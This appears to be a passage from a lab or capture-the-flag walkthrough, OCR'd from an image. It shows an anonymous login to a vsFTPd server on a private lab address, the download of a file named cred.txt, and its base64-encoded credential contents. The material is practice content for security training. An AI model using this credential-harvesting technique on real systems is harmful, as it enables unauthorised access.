 ```
ftp: Can't bind for data connection: Address already in use
```

---

Try logging in using `anonymous` and empty password

```
└─$ ftp 192.168.97.128
Connected to 192.168.97.128.
220 (vsFTPd 3.0.3)
Name (192.168.97.128:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

---

```
ftp> dir
229 Entering Extended Passive Mode (|||33968|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
226 Directory send OK.
ftp> dir
229 Entering Extended Passive Mode (|||64152|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
226 Directory send OK.
```

```
ftp> cat cred.txt
?Invalid command.
ftp> type cred.txt
cred.txt: unknown mode.
ftp> get cred.txt
local: cred.txt remote: cred.txt
229 Entering Extended Passive Mode (|||37969|)
150 Opening BINARY mode data connection for cred.txt (21 bytes).
100% |**********************************************|    21       36.55 KiB/s    00:00 ETA
226 Transfer complete.
21 bytes received in 00:00 (8.47 KiB/s)
ftp> 
```

```
┌──(kali㉿kali)-[~]
└─$ ls
cred.txt  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
                                                                                           
┌──(kali㉿kali)-[~]
└─$ cat cred.txt 
Y2hhbXA6cGFzc3dvcmQ=
```
